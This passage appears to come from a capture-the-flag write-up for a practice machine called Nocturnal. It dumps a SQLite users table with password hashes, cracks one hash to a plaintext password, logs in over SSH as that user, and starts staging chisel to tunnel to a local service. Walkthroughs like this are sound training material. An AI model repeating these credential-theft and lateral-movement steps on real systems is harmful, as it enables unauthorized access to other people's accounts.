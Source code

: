 i can use sqlite3 to dump the user table.

`sqlite3 nocturnal_database.db`

```
sqlite version 3.46.1 2024-08-13 09:16:08
enter ".help" for usage hints.
sqlite> .tables
uploads  users
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0al5|101ad4543a96a7fd84908fd0d802e7db
8|cn0x|62dd5084a03c9358eb1822d33ee94dd3
```

i'll take tobias' hash and paste it into crackstation.

`slowmotionapocalypse`

i'll try this password to login as tobias via ssh.

```
ssh tobias@nocturnal.htb
tobias@nocturnal.htb's password: 
welcome to ubuntu 20.04.6 lts (gnu/linux 5.4.0-212-generic x86_64)
```

neat. i have a shell as tobias. grab the user.txt

```
tobias@nocturnal:~$ cat user.txt
d8d42***************************
```

# Privesc to Root

first i'll do my immediate action of checking for sudo privs

```
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias:
sorry, user tobias may not run sudo on nocturnal.
```

fine, i'll check to see if there are any local applications running

```
tobias@nocturnal:~$ ss -tuln
```
there is a service, potentially a web application running locally on port 8080. i'll have to break out chisel to access it.

i'll start up a python webserver on my attacker and transfer the file to the victim

`sudo python3 -m http.server 80`
